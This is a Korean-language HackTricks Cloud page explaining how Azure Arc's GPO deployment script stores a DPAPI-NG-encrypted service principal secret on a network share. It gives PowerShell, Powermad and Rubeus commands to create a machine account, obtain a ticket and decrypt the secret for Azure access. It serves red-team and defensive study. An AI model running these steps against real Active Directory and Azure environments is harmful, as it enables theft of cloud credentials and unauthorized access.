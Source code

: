 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc는 그룹 정책 개체 방법을 사용하여 새로운 내부 서버(도메인에 가입된 서버)를 Azure Arc에 통합할 수 있도록 합니다. 이를 위해 Microsoft는 온보딩 절차를 시작하는 데 필요한 배포 툴킷을 제공합니다. ArcEnableServerGroupPolicy.zip 파일 안에는 DeployGPO.ps1, EnableAzureArc.ps1 및 AzureArcDeployment.psm1 스크립트가 포함되어 있습니다.

DeployGPO.ps1 스크립트를 실행하면 다음 작업이 수행됩니다:

1. 로컬 도메인 내에 Azure Arc Servers Onboarding GPO를 생성합니다.
2. 온보딩 프로세스를 위해 생성된 지정된 네트워크 공유에 EnableAzureArc.ps1 온보딩 스크립트를 복사하며, 이 공유에는 Windows 설치 패키지도 포함되어 있습니다.

이 스크립트를 실행할 때 시스템 관리자는 두 가지 주요 매개변수인 **ServicePrincipalId**와 **ServicePrincipalClientSecret**을 제공해야 합니다. 또한 도메인, 공유를 호스팅하는 서버의 FQDN 및 공유 이름과 같은 다른 매개변수도 필요합니다. 테넌트 ID, 리소스 그룹 및 기타 필요한 정보와 같은 추가 세부정보도 스크립트에 제공해야 합니다.

DPAPI-NG 암호화를 사용하여 지정된 공유의 AzureArcDeploy 디렉토리에 암호화된 비밀이 생성됩니다. 암호화된 비밀은 encryptedServicePrincipalSecret이라는 이름의 파일에 저장됩니다. 이 내용은 DeployGPO.ps1 스크립트에서 확인할 수 있으며, 여기서 ProtectBase64를 호출하여 $descriptor와 $ServicePrincipalSecret을 입력으로 사용하여 암호화가 수행됩니다. descriptor는 도메인 컴퓨터 및 도메인 컨트롤러 그룹 SID로 구성되어 있어, ServicePrincipalSecret은 도메인 컨트롤러 및 도메인 컴퓨터 보안 그룹에 의해서만 복호화될 수 있도록 합니다.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

다음 조건이 있습니다:

1. 내부 네트워크에 성공적으로 침투했습니다.
2. Active Directory 내에서 컴퓨터 계정을 생성하거나 제어할 수 있는 능력이 있습니다.
3. AzureArcDeploy 디렉토리를 포함하는 네트워크 공유를 발견했습니다.

AD 환경 내에서 머신 계정을 얻는 방법은 여러 가지가 있습니다. 가장 일반적인 방법 중 하나는 머신 계정 쿼터를 악용하는 것입니다. 또 다른 방법은 취약한 ACL 또는 다양한 다른 잘못된 구성으로 머신 계정을 손상시키는 것입니다.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
한 번 머신 계정을 얻으면, 이 계정을 사용하여 인증할 수 있습니다. 우리는 netonly 플래그가 있는 runas.exe 명령을 사용하거나 Rubeus.exe로 패스-더-티켓을 사용할 수 있습니다.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
메모리에 저장된 컴퓨터 계정의 TGT를 사용하여 다음 스크립트를 통해 서비스 주체 비밀을 복호화할 수 있습니다.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
대안으로, [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG)를 사용할 수 있습니다.

이 시점에서, 암호화된ServicePrincipalSecret 파일과 동일한 네트워크 공유에 저장된 ArcInfo.json 파일에서 Azure에 연결하는 데 필요한 나머지 정보를 수집할 수 있습니다. 이 파일에는 TenantId, servicePrincipalClientId, ResourceGroup 등과 같은 세부 정보가 포함되어 있습니다. 이 정보를 사용하여 Azure CLI를 통해 손상된 서비스 주체로 인증할 수 있습니다.

## References

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

